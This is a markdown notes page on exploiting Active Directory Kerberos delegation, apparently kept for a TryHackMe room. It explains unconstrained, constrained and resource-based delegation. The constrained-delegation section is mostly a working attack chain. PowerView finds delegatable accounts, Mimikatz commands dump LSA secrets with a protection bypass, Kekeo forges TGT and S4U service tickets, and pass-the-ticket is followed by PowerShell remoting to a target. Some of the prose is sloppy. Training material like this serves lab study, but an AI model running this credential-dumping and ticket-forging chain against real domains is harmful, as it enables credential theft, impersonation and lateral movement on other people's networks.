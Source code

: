 # Active Directory Kerberos Delegation Exploitation

## Introduction

For [[Attacking-Kerberos]] and [[Active-Directory-Kerberos-Authentication-Defined]]

Kerberos Delegation can be used to is to enable an application to access resources hosted on a different server, without Kerberos Delegation we need a AD Service Account and provide it directit or have in innately have direct access to the target resource. With delegation the service account can be delegated to the target resource and interact with it on the behalf of the user able to delegate to the exploited Kerberos delegation victim. This process is visually represented below:

1. Current Context ---> Access ---> Victim x-x-x-x-No Access-x-x-x-x Target Resource
2. Current Context ---> Kerberos Delegation ---> Victim ---> Access Via Delegated to ---> Target Resource

## Constrained Vs Unconstrained

Unconstrained delegation is the original implementation that Microsoft later superceded with Constrained Delegation in 2003. 

- **Unconstrained**

[Unconstrain Delegation](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)  provides no limits to the delegation, if a user with the `"TRUSTED_FOR_DELEGATION"` flag set authenticates to a host with Unconstrained Delegation configured, a ticket-granting ticket (TGT) for that user account is generated and stored in memory. Therefore we could attempt to force a privileged account to authenticate to the host, which would allow them to intercept the generated TGT and impersonate the privileged service. 
[article](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)

- **Constrained**

To make this less over-powered and remediate security failings of Unconstrained Delegation, Microsoft introduced Constrained Delegation in 2003. Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised. These are service, HOST for accounts, CIFS - Common Internet File System-based or based on one of allowed [[Network-Protocols]] within the AD Domain. With [[PowerView-Cheatsheet]] remember to `import-module`...

```powershell
Get-NetUser -TrustedToAuth
# Look at msds-allowedtodelegateto 
```

Dependent on your current context, Domain layout and attack path objectives.  Understanding the connective mechanism between machines in AD is key as the [[Network-Protocols]]. Usage of either legitimate Windows variants of or the any of the [[Impacket-Cheatsheet]] relevant, like for WinRM (but not Impacket) [[Evil-winrm-Cheatsheet]]. With Administrative Access [[Mimikatz-Cheatsheet]] to harvest credentials and tokens; [[Kekeo-Cheatsheet]] to generate tickets.

Get a service username and password with Mimkatz
```powershell
# mimikatz.exe
token::elevate
!+ # LSA protection bypass!
lsdump::secrets
```

Generate TGT tickets with Kekeo -- [[Kekeo-Cheatsheet]]
**FOR SOME SERVICE REQUIRE MULTIPLE TICKETS**

Method | Protocols
--- | ---
PS Remoting | http wsman

```powershell
# kekeo.exe
tgt::ask /user:<svc-user> /domain:<domain> /password:<password>
# Successful output will have:
> Ticket in file 'tgt_filename'
# Do for each $PROTOCOL required!
tgs::s4u /tgt:'tgt_filename' /user:<impersonation-target> /service:$PROTOCOL/<service>
# Successful output will have:
> Ticket in file 'TGS_...'
# Double check which remoting services need which protocol and forge for each service
```

Import tickets with Mimikatz
```powershell
# mimikatz.exe
privilege::debug
!+ # LSA protection bypass!
# Use TGS file(S) from kekeo
kerberos::ptt $TGS_Filename_beware_of_clipboard_newlines_or_carraige_return
# Successful output:
* File:
'TGS_*....'
OK
```

The Powershell remote into the next server/workstation:
```powershell
klist # Show imported Tickets
New-PSSession -ComputerName <target>.<domain>
Enter-PSSession -ComputerName <target>.<domain>
```


- **Resource-Based Contrained Delegation**

Introduced by Microsoft in 2012, Resource-Based Constrained Delegation (RBCD) once again provided additional restrictions on Kerberos Delegation for security. The service now specifies which objects can delegate to it allowing the service owner to control who can access it. If we have permissions to configure RBCD for a service we have ability to set `msDS-AllowedToActOnBehalfOfOtherIdentity`. populating it with currently control account then we can generate a TGT for the account we control, which will allow us to interact with this service see this article for more [Resource-based Constrained Delegation Abuse](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/).


## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[Unconstrain Delegation Medium Blog](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)
[Resource-based Constrained Delegation Abuse](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)